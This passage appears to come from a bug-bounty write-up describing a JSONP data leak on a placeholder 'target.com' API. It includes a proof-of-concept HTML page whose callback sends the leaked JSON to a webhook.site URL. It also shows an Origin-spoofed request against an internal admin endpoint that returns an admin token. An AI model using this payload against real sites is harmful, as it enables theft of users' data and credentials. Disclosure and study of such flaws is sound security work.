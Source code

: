 ```js
myFunction({ name: "Andrea", city: "Lonigo" });
```

To weaponize this, I made a simple proof-of-concept HTML file:

```html
<html>
  <head><title>JSONP Leaker</title></head>
  <body>
    <script>
      function leak(data) {
        fetch("https://webhook.site/YOUR-UNIQUE-ID", {
          method: "POST",
          headers: { "Content-Type": "application/json" },
          body: JSON.stringify(data)
        });
      }
    </script>
    <script src="https://data-api.target.com/getData?callback=leak"></script>
  </body>
</html>

```

**Hosted it on a controlled domain and sent it to myself to verify. The data got exfiltrated cleanly to my webhook. 🎯**

### 🚨 What Made This High Severity?

Most JSONP bugs are just “meh” unless they leak public data. But in this case:

- It exposed **authenticated user details** without a session
- CORS was **misconfigured** (it allowed `*` with `Access-Control-Allow-Credentials: true`)
- It was tied to production data. No masking, no redactions. Just raw juicy info 🥩

# 📦 Bonus: Internal JSONP on Admin Panel?

Now here’s the spicy part. During recon, I also found an **internal-use-only** endpoint:

#cURL

https://admin-api.target.com/internal/config?callback=handler

I spoofed the Origin header using curl:

```http
"Origin: evil.com" "https://admin-api.target.com/internal/config?callback=evil"
```

Guess what? It responded with:

```http
evil({"admin_token":"sk-very-secret-admin-token","env":"production"});
```

I had access to **admin-level tokens**. This wasn’t just a leak. This was:
